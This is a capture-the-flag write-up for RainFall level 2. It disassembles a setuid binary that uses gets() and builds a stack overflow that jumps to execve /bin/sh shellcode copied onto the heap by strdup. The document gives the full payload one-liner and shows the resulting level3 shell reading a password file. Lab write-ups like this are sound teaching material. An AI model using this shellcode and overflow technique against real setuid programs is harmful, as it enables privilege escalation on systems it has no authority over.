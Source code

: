 # Level 2

- We login as user level2:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2

level2@RainFall:~$ gdb level2
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
```
>`0x8049860 <stdout@@GLIBC_2.0>: 0xb7fd1a20`

>>Call `<fflush@plt>`.


```
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```
>buffer starts at `-0x4c(%ebp)`

>>Prompt the user without imposing any input size limit.


```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```
>`0x4(%ebp) --> 0xbffff70c`

>`0xbffff70c:     0x0804854a`

>`saved eip 0x804854a`

>>After receiving the input, if the return address of the function starts with `0xb`, we will call `<printf@plt>` and then `<_exit@plt>`. Otherwise, we jump to `<puts@plt>`.


```
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
```
>`0x8048620: "(%p)\n"`

>`-0xc(%ebp) --> 0xbffff70c`

>`0xbffff70c:     0x0804854a`

>`saved eip 0x804854a`

>>Print the function return address.


```
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
```
>>Call `exit(1)`


```
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
```
>buffer starts at `-0x4c(%ebp)`

>>Print the buffer


```
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```
>buffer starts at `-0x4c(%ebp)`

>>Copy the buffer into the heap.


- To redirect the program's execution flow, the function must `return`, so we must avoid `<_exit@plt>`.


- We are looking to replace the return address of the function with an address that contains our shellcode. However, we cannot store our shellcode in the environment or in the stack of the `p()` function because these addresses all start with `0xb`.
```
(gdb) info reg
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...
```

```
(gdb) x/3s *(char**)environ
0xbffff8f5:      "SHELLCODE=1\322Rh//shh/bin\211\343\061\300\260\v̀"
0xbffff915:      "TERM=xterm-256color"
0xbffff929:      "SHELL=/bin/bash"
```


- `0xc0000000` to `0xffffffff` is reserved for the kernel, attempting to access it would result in a segmentation fault.


- So, we need a way to write our shellcode into much lower addresses, such as in the heap at the memory address returned by `<strdup@plt>`.
```
(gdb) b*0x0804853d
Breakpoint 1 at 0x804853d
```

```
(gdb) r < <(echo 123)
...
Breakpoint 1, 0x08048538 in p ()

(gdb) x/s $eax
0x804a008:      "123"
```


- The input should thus be in the form of `(NOP's) + SHELLCODE + (FILLER) + \x08\xa0\x04\x08`. The question now is how many characters are needed for the return address of the `p()` function to start being overwritten. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).


- The return address is found to be replaced after the 80th character. We would be tempted to do this:
```
(gdb) r < <(python -c "print '\x90'*53 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x08\xa0\x04\x08'"; cat)
```


- However, we would have an issue because of this:
```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```


- Indeed, this part of the code copies the return address value from the function a little further down in the stack. This would have the effect of overwriting a portion of our shellcode. Therefore, we must leave a small space, precisely 16 bytes:
```
level2@RainFall:~$ (python -c "print '\x90'*37 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*16 + '\x08\xa0\x04\x08'"; cat) | ./level2
...
whoami
level3

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```